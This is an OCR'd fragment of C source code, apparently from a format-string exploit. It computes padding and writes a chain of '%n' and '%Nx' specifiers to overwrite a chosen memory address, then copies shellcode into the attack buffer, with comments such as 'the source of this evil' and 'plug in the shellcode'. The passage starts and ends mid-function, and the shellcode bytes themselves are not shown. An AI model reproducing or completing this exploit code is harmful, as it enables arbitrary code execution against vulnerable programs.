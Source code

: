         ptr += 3; cnt += 8;

    }

 

    dstpos = bufpos + offset;

 

/*

** This small algorithm of mine can be used

** to obtain "difficult" values..

*/

 

    for(i = 0; i < 4; i++)

    {

        pad = dstpos >> i * 8 & 0xff;

        if(pad == (cnt & 0xff))

        {

            sprintf(ptr, "%%n%%n");

            ptr += 4; continue;

        }

        else

        {

            int tmp;

            /* 0xffffffff = display count of 8 */

            while(pad < cnt || pad % cnt <= 8) pad += 0x100;

            pad -= cnt, cnt += pad;

            /* the source of this evil */

            tmp = sprintf(ptr, "%%%dx%%n", pad);

            ptr += tmp;

        }

 

    }

 

    *ptr = NOP;

    /* plug in the shellcode */

    memcpy(buff + buflen - strlen(sc), sc, strlen(sc));

    buff[buflen] = '\0';
